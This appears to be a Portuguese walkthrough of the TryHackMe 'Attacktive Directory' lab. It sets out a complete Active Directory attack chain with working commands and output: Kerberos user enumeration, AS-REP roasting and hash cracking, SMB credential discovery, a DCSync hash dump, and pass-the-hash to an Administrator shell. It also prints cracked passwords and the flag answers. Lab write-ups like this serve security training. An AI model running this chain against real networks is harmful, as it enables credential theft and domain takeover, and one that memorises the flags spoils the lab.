



<div class="page"/>

# **Pós-Exploração - Attacktive Directory | Sonael de A. Angelos Neto**

- ### **Como funciona um ataque ao Kerberos**

 Kerberos é um protocolo de autenticação que é amplamente utilizado em ambientes de rede para garantir a segurança da comunicação entre computadores. Um ataque ao Kerberos refere-se a qualquer tentativa de violar a segurança do protocolo, permitindo que um invasor possa obter acesso não autorizado aos recursos protegidos pelo Kerberos.

 Existem vários tipos de ataques ao Kerberos, incluindo:

 - **Ataque de força bruta**: Um invasor tenta adivinhar a senha de um usuário repetidamente, até encontrar a combinação correta.

 - **Ataque de replay**: Um invasor intercepta as mensagens trocadas entre o cliente e o servidor Kerberos e as reproduz mais tarde, a fim de obter acesso não autorizado.

 - **Ataque de injeção de pacotes**: Um invasor intercepta e modifica as mensagens Kerberos em trânsito para conceder a si próprio acesso não autorizado.

 - **Ataque de ataque man-in-the-middle**: Um invasor intercepta a comunicação entre o cliente e o servidor Kerberos e se faz passar por um deles para obter acesso não autorizado.

 - **Ataque de negação de serviço (DoS)**: Um invasor sobrecarrega o servidor Kerberos com tráfego malicioso, impedindo o acesso legítimo de usuários autorizados.

 Para se proteger contra ataques ao Kerberos, é importante implementar boas práticas de segurança, como senhas fortes, criptografia forte, monitoramento de rede e atualizações regulares de software. Além disso, é importante estar ciente dos diferentes tipos de ataques ao Kerberos e saber como detectá-los e preveni-los.

<div class="page"/>


## **<center>Sumário</center>**

  **Nesse documento iremos resolve a maquina do TryHackMe chamada "Attacktive Directory"**

  1. #### ***<a href="#1">Deploy The Machine.</a>***
  2. #### ***<a href="#2">Setup.</a>***
  3. #### ***<a href="#3">Welcome to Attacktive Directory.</a>***
  4. #### ***<a href="#4">Enumerating Users via Kerberos.</a>***
  5. #### ***<a href="#5">Abusing Kerberos.</a>***
  6. #### ***<a href="#6">Back to the Basics.</a>***
  7. #### ***<a href="#7">Elevating Privileges within the Domain.</a>***
  8. #### ***<a href="#8">Flag Submission Panel.</a>***


### **Complementos:**

   9. #### ***<a href="#9">Dificuldades.</a>***
   10. #### ***<a href="#10">Conclusão.</a>***
   11. #### ***<a href="#11">Referências.</a>***
   12. #### ***<a href="#12">Links p/ Laboratório.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [Impacket](https://github.com/SecureAuthCorp/impacket.git)
    - Utilizaremos algumas ferramentas do Impacket para explorar o Active Directory.

- #### [nmap](https://nmap.org/)
    - Utilizaremos o nmap para enumerar a maquina.

- #### Bloodhound
    - Utilizaremos o Bloodhound para explorar o Active Directory.
  
- #### Neo4j
    - Utilizaremos o Neo4j para explorar o Active Directory.

- #### Kerbrute
    - Utilizaremos o Kerbrute para enumerar usuários do Active Directory.

- #### smbclient
    - Utilizaremos o smbclient para explorar e enumerar a maquina.

- #### Evil-WinRM
    - Utilizaremos o Evil-WinRM para explorar a maquina.

---

## **<a id="1"> • Deploy The Machine.</a>**

O primeiro passo é fazer deploy da máquina, para isso basta clicar no botão "Start Machine" no canto superior direito da task.

A task não necessita de nenhuma resposta, basta clicar nos botões "Complete" para finalizar a task.

---

## **<a id="2"> • Setup.</a>**

Nessa task iremos configurar o nosso ambiente para começar a explorar o Active Directory.

### **1.** **Baixando e Instalando o "Impacket".**

 A biblioteca Impacket fornece uma série de ferramentas para interagir com protocolos de rede, como SMB (Server Message Block), LDAP (Lightweight Directory Access Protocol), Kerberos e NetBIOS (Network Basic Input/Output System). Essas ferramentas podem ser usadas para desenvolver exploits, executar ataques de phishing, realizar testes de penetração em redes corporativas, entre outras finalidades.

 Podemos baixar o **"Impacket"** através dos seguintes comando:

 ```bash
 sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
 sudo pip3 install -r /opt/impacket/requirements.txt
 cd /opt/impacket/ 
 sudo pip3 install .
 sudo python3 setup.py install
 ```

 Porém, como estamos utilizando o Kali Linux, o Impacket já está instalado e está no caminho: `"/usr/share/doc/python3-impacket/examples"`.

### **2.** **Baixando e Instalando o Bloodhound e o Neo4j.**

  O Bloodhound é uma ferramenta de auditoria de rede criada para auxiliar os administradores de redes na descoberta de falhas de segurança. O Neo4j é um sistema de banco de dados de grafo que usa um modelo de dados gráfico para representar pontos de dados e ligações relacionadas entre eles.

<div class="page"/>

  Podemos baixar o **"Bloodhound"** e o **"Neo4j"** através dos seguintes comando:

  ```bash
  apt install bloodhound neo4j
  ```

E para completar a task, basta clicar no botão "Complete".

---

## **<a id="3"> • Welcome to Attacktive Directory.</a>**

Agora precisamos enumerar a maquina para descobrir quais portas e serviços estão abertos.

Para isso utilizaremos o nmap, basta executar o seguinte comando:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in /usr/share/doc/python3-impacket/examples                                                                    14:06:14
╰──➤ nmap -sV -Pn -sC 10.10.29.131
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 14:06 -03
Nmap scan report for 10.10.29.131
Host is up (0.21s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-03-28 17:14:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2023-03-28T17:14:36+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2023-03-27T15:55:01
|_Not valid after:  2023-09-26T15:55:01
|_ssl-date: 2023-03-28T17:14:44+00:00; 0s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb2-time:
|   date: 2023-03-28T17:14:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 499.17 seconds
```

Onde temos:

- `-sV:` Faz o scan de versão dos serviços.
- `-Pn:` Desabilita o ping.
- `-sC:` Executa scripts de enumeração de serviços.

Agora que já sabemos quais portas e serviços estão abertos, podemos responder a primeira pergunta da task.

### **1.** **What tool will allow us to enumerate port 139/445?**

 Para enumerar as portas 139 e 445, podemos utilizar o **"enum4linux"**.

 O Enum4linux é uma ferramenta que enumera informações sobre sistemas baseados em Unix e Windows, como usuários, grupos, compartilhamentos de arquivos, impressoras, etc. Ele também pode ser usado para descobrir informações sobre o sistema operacional, como versão do sistema operacional, nome do host, etc.


### **2.** **What is the NetBIOS-Domain Name of the machine?**

 Podemos obter essa informação através do comando nmap que usamos anteriormente.

 Então temos que procurar por: **"NetBIOS_Domain_Name: THM-AD"**.

 Também podemos encontrar essa informação através do enum4linu com o comando:

 ```bash
 enum4linux -a 10.10.29.131
 ```

 Onde temos:

 - `-a:` Enumera todos os recursos.


 

### **3.** **What invalid TLD do people commonly use for their Active Directory Domain?**

 O Top Level Domain (TLD) ou Domínio de Nível Superior é a última parte de um nome de domínio na Internet, localizado após o último ponto.

 No resultado do nmap temos que procurar por: **"DNS_Domain_Name: spookysec.local"** onde temos o TLD **".local"**.


Com isso concluirmos a task.


---

## **<a id="4"> • Enumerating Users via Kerberos.</a>**

Para fazer essa enumeração, vamos utilizar o **"kerbrute"**.

O Kerbrute é uma ferramenta de linha de comando de código aberto escrita em Go, que é usada para testar a segurança de autenticação Kerberos em redes corporativas. Ele pode ser usado para realizar ataques de força bruta em credenciais Kerberos, bem como para realizar testes de penetração em redes corporativas.

Primeiro precisamos baixar e instalar o **kerbrute**. para isso basta executar os seguintes comandos:

```bash
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute
sudo apt-get install golang git
go build
./kerbrute
```

<div class="page"/>

### **1.** **What command within Kerbrute will allow us to enumerate valid usernames?**

Utilizando o comando `"Kerbrute -h"` podemos ver todas as opções do **kerbrute**.


E o comando que nos interessa é o **"userenum"**.

### **2.** **What notable account is discovered?**

Para descobrir os usuários, vamos utilizar o comando `"kerbrute userenum -dc 10.10.29.131 -d spookysec.local userlist.txt"`:

Onde temos:

- `-dc:` IP do servidor.
- `-d:` Domínio que encontramos anteriomente utilizando o nmap.
- `userlist.txt:` Lista de usuários que pode ser encontrada [aqui](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt).

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                                                   15:29:51
╰──➤ /root/Documents/tools/kerbrute/kerbrute userenum --dc 10.10.4.102 -d spookysec.local userlist.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 03/28/23 - Ronnie Flathers @ropnop

2023/03/28 15:34:06 >  Using KDC(s):
2023/03/28 15:34:06 >   10.10.4.102:88

2023/03/28 15:34:07 >  [+] VALID USERNAME:       james@spookysec.local
2023/03/28 15:34:14 >  [+] svc-admin has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604
2023/03/28 15:34:14 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2023/03/28 15:34:26 >  [+] VALID USERNAME:       James@spookysec.local
2023/03/28 15:34:29 >  [+] VALID USERNAME:       robin@spookysec.local
2023/03/28 15:34:56 >  [+] VALID USERNAME:       darkstar@spookysec.local
2023/03/28 15:35:15 >  [+] VALID USERNAME:       administrator@spookysec.local
2023/03/28 15:35:48 >  [+] VALID USERNAME:       backup@spookysec.local
2023/03/28 15:36:04 >  [+] VALID USERNAME:       paradox@spookysec.local
2023/03/28 15:37:50 >  [+] VALID USERNAME:       JAMES@spookysec.local
2023/03/28 15:38:24 >  [+] VALID USERNAME:       Robin@spookysec.local
2023/03/28 15:41:49 >  [+] VALID USERNAME:       Administrator@spookysec.local
2023/03/28 15:47:53 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2023/03/28 15:50:03 >  [+] VALID USERNAME:       Paradox@spookysec.local
2023/03/28 15:56:23 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2023/03/28 15:58:12 >  [+] VALID USERNAME:       ori@spookysec.local
2023/03/28 16:01:39 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2023/03/28 16:10:05 >  Done! Tested 73317 usernames (16 valid) in 2158.266 seconds
```

A conta que chama atenção aqui é `"svc-admin"`.

### **3.** **What is the other notable account is discovered?**

A outra conta que chama atenção é a conta `"backup"`.




---

## **<a id="5"> • Abusing Kerberos.</a>**

Após a conclusão da enumeração das contas de usuário, podemos tentar abusar de um recurso do Kerberos com um método de ataque chamado ASREPRoasting. ASReproasting ocorre quando uma conta de usuário tem o privilégio "Não requer pré-autenticação" definido. Isso significa que a conta não precisa fornecer uma identificação válida antes de solicitar um tíquete Kerberos na conta de usuário especificada.

Quando fizemos o scan com o Kerbrute, vimos que a conta `"svc-admin"` não requer pré-autenticação e que foi possível obter o hash da conta.

```text
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604
```

Também é possivel obter o mesmo resultado utilizando uma ferramenta do `Impacket` chamada `GetNPUsers.py` utilizando o comando "`python GetNPUsers.py -no-pass -usersfile ./users.txt -dc-ip 10.10.4.102 spooky.local/`".

Onde temos: 

- `-no-pass:` Não pede senha.
- `-usersfile:` Arquivo com os usuários que queremos testar.
- `-dc-ip:` IP do servidor.
- `spooky.local/` Domínio que encontramos anteriomente utilizando o nmap.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                       16:59:34
╰──➤ python /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass spookysec.local/svc-admin -dc-ip 10.10.185.51
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604
```


### **1.** **Which user account can you query a ticket from with no password?**

Como visto anteriormente, a conta que não requer pré-autenticação é a `"svc-admin"`.

### **2.** **Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC?**

Para isso vamos pesquisar no site [hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes) e ver qual tipo de hash é o que encontramos.

Utilizando o inicio do hash "`$krb5asrep`", podemos ver que é um hash do tipo "`Kerberos 5, etype 23, AS-REP`" que tem o hash mode de número "`18200`".


<div class="page"/>

### **3.** **What mode is the hash?**

Como visto anteriormente, o hash mode é o número "`18200`".

### **4.** **Crack the hash with the modified password list provided, what is the user accounts password?**

Para quebrar o hash, vamos utilizar o hashcat com o comando "`hashcat -m 18200 hash.txt passlist.txt`".

Onde temos:

- `-m 18200:` Modo do hash.
- `hash.txt:` Arquivo com o hash.
- `passlist.txt:` Arquivo com a lista de senhas que pode ser encontrada [aqui](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt).

Ao executar o comando, temos o seguinte resultado:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                       17:00:34
╰──➤ hashcat -m 18200 hash.txt passlist.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-6200U CPU @ 2.30GHz, 1420/2904 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: passlist.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405...e77604
Time.Started.....: Tue Mar 28 17:00:45 2023 (0 secs)
Time.Estimated...: Tue Mar 28 17:00:45 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   482.4 kH/s (0.74ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7168/70188 (10.21%)
Rejected.........: 0/7168 (0.00%)
Restore.Point....: 6144/70188 (8.75%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: horoscope -> frida

Started: Tue Mar 28 17:00:44 2023
Stopped: Tue Mar 28 17:00:47 2023
```

Como podemos ver, o hash foi quebrado e a senha é "`management2005`".


---

## **<a id="6"> • Back to the Basics.</a>**

Com as credenciais da conta de um usuário, agora temos muito mais acesso dentro do domínio. Agora podemos tentar enumerar todos os compartilhamentos que o controlador de domínio pode estar distribuindo.

 ### **1.** **What utility can we use to map remote SMB shares?**

 Para mapear os compartilhamentos SMB, podemos utilizar o comando "`smbclient`".

 O smbclient é um utilitário de linha de comando usado para se conectar a servidores e compartilhamentos de arquivos que usam o protocolo SMB (Server Message Block), que é um protocolo de rede usado para compartilhar arquivos, impressoras e outros recursos entre computadores.

 Com o smbclient,podemos nos conectar a servidores SMB e realizar várias operações, como navegar pelo sistema de arquivos remoto, transferir arquivos entre computadores, criar e excluir diretórios, visualizar e modificar as permissões de arquivos e diretórios, entre outras operações.

 ### **2.** **Which option will list shares?**

 Utilizando o help do smbclient, podemos ver que a opção "`-L`" lista os compartilhamentos disponíveis.

 

 ### **3.** **How many remote shares is the server listing?**

 Com o smbclient, podemos listar os compartilhamentos disponíveis com o comando "`smbclient -L 10.10.185.51 -U svc-admin`".

 ```bash
 ╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                                                   17:10:18 ╰──➤ smbclient -L 10.10.185.51 -U svc-admin
Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.185.51 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

 Como podemos ver, o servidor está listando 6 compartilhamentos.

 ### **4.** **There is one particular share that we have access to that contains a text file. Which share is it?**

 Dentre todas as pastas listadas a que mais chamou a atenção foi a pasta "`backup`", vamos entrar nela e ver o que temos.

 Para isso vamos utilizar o comando "`smbclient \\\\10.10.185.51\\backup -U svc-admin`"

 ```bash
 ╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                                                   17:13:26
╰──➤ smbclient \\\\10.10.185.51\\backup -U svc-admin
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 16:08:39 2020
  ..                                  D        0  Sat Apr  4 16:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 16:08:53 2020

                8247551 blocks of size 4096. 3554649 blocks available
```

 ### **5.** **What is the content of the file?**

 Para ler o conteúdo do arquivo, vamos utilizar o comando "`get`" para baixar-lo para a nossa máquina.
    
 ```bash
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> ^C
```

 Agora vamos ler o arquivo com o comando "`cat`".

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                                                   17:18:10
╰──➤ cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw#
```
 Temos que o conteúdo do arquivo é "`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw#`".

<div class="page"/>

 ### **6.** **Decoding the contents of the file, what is the full contents?**

 O conteúdo do arquivo é um hash base64, vamos decodificar ele utilizando o site [base64decode](https://www.base64decode.org/).

 

 então temos que o conteúdo do arquivo é "`backup@spookysec.local:backup2517860`".


---


## **<a id="7"> • Elevating Privileges within the Domain.</a>**

Agora que temos novas credenciais de conta de usuário, podemos ter mais privilégios no sistema do que antes. O nome de usuário da conta “backup” nos faz pensar. Qual é a conta de backup para?

Bem, é a conta de backup do controlador de domínio. Esta conta tem uma permissão exclusiva que permite que todas as alterações do Active Directory sejam sincronizadas com esta conta de usuário. Isso inclui hashes de senha.

Sabendo disso, podemos usar outra ferramenta dentro do Impacket chamada “secretsdump.py”. Isso nos permitirá recuperar todos os hashes de senha que esta conta de usuário (que está sincronizada com o controlador de domínio) tem a oferecer. Explorando isso, teremos efetivamente controle total sobre o Domínio AD.

Então utilizando o comando "`secretsdump.py -just-dc backup@10.10.185.51`" vamos tentar obter os hashes do controlador de domínio.


### **1.** **What method allowed us to dump NTDS.DIT?**

Como podemos ver na imagem acima, o método utilizado para obter os hashes foi o "`DRSUAPI`".


### **2.** **What is the Administrators NTLM hash?**

Como podemos ver na imagem acima, o hash do Administrador é "`0e0363213e37b94221497260b0bcb4fc`".

### **3.** **What method of attack could allow us to authenticate as the user without the password?**

O método de ataque que nos permite autenticar como o usuário sem a senha é o "`Pass the hash`".

"`Pass the hash`" é uma técnica usada em ataques de segurança cibernética para obter acesso não autorizado a sistemas ou recursos protegidos que usam autenticação baseada em hash de senha.

O ataque "`pass the hash`" aproveita o fato de que, quando um usuário se autentica em um sistema, suas credenciais de usuário e senha são convertidas em um hash e enviadas para o servidor de autenticação. Em vez de tentar obter a senha em si, o atacante captura o hash e o reutiliza para se autenticar em outros sistemas ou recursos que usam a mesma senha.

### **4.** **Using a tool called Evil-WinRM what option will allow us to use a hash?**

Para isso podemos utilizar o comando "`evil-winrm -h`" para ver as opções disponíveis.


Assim podemos ver que as flags "`-H, --hash`" é o que nos permite usar um hash.


---

## **<a id="8"> • Flag Submission Panel.</a>**

Vamos utilizar o "`evil-winrm -i 10.10.185.51 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`" para obter uma shell como Administrador.


### **1.** **flag svc-admin**

A primeira flag está no diretório "`C:\Users\svc-admin\Desktop`".

```ps
*Evil-WinRM* PS C:\Users\svc-admin\Desktop> pwd

Path
----
C:\Users\svc-admin\Desktop


*Evil-WinRM* PS C:\Users\svc-admin\Desktop> ls


    Directory: C:\Users\svc-admin\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt


*Evil-WinRM* PS C:\Users\svc-admin\Desktop> cat user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
```

### **2.** **flag backup**

A segunda flag está no diretório "`C:\Users\backup\Desktop`".

```ps
*Evil-WinRM* PS C:\Users\backup\Desktop> pwd

Path
----
C:\Users\backup\Desktop


ls
*Evil-WinRM* PS C:\Users\backup\Desktop> ls


    Directory: C:\Users\backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:19 PM             26 PrivEsc.txt


*Evil-WinRM* PS C:\Users\backup\Desktop> cat PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}
```

### **3.** **flag Administrator**

A terceira flag está no diretório "`C:\Users\Administrator\Desktop`".

```ps
*Evil-WinRM* PS C:\Users\Administrator\Desktop> pwd

Path
----
C:\Users\Administrator\Desktop


ls
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
```



---

## **<a id="9"> • Dificuldades.</a>**

*Nehuma dificuldade relevante. =}* 

---

## **<a id="10"> • Conclusão.</a>**

